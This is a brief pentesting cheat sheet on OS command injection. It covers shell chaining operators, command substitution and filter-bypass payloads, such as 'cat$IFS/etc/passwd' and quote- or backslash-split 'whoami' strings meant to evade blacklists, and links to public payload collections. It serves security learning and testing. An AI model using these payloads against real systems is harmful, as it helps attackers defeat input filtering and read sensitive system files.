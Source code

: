 ```yaml
---
icon: terminal
---
```


# Command Injection

## Chaining and Invoking

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)
* [https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)

### Space Bypass

Avoid using spaces with **Internal Field Separator** `$IFS` . The default value of IFS is a space, a tab, and a newline.

```bash
cat$IFS/etc/passwd
```

### Blacklisted Words

```bash
# Quotes
w'h'o'a'm'i'     # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems
wh''oami         # Both windows and linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
